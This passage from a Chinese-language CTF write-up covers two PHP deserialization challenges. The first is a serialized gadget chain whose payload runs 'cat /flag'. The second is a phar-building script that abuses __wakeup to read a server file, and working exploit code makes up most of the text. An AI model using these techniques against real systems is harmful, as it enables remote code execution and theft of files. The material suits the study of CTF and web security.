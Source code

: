 ```

$str = "?><?php eval(system('cat /flag'));?>";
$a = new Exception($str,1);$b = new Exception($str,2);
$exp = new Titanic;
$exp->people = new Jack;
$exp2 = new Love;
$exp2->var = new Rose();
$exp2->var->var1 = $a;
$exp2->var->var2 = $b;
$exp->people->action = $exp2;
$exp->ship = $exp2;
echo urlencode(serialize($exp));
?>
```



## 0x02 不一样的web

进入平台发现文件上传，在网页源码提示中又观察到了两个类对象`Test`和`Read`，推测是phar反序列化漏洞。观察到源码类中有文件读取`lib.php`，构造exp读取`lib.php`：

readlib.php

```
<?php

class Read{
    public $name;
    public function file_get()
    {
        $text = base64_encode(file_get_contents("lib.php"));
        echo $text;
    }
}
class Test{
    public $f;
    public function __construct($value){
        $this->f = $value;
    }

    public function __wakeup()
    {
        $func = $this->f;
        $func();
    }
}

    $phar = new Phar('phar.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $b = Array('Read','file_get');
    $a = new Test($b);
    $phar -> setMetadata($a);
    $phar -> addFromString('test.txt','test');
    $phar -> stopBuffering();
?>
```
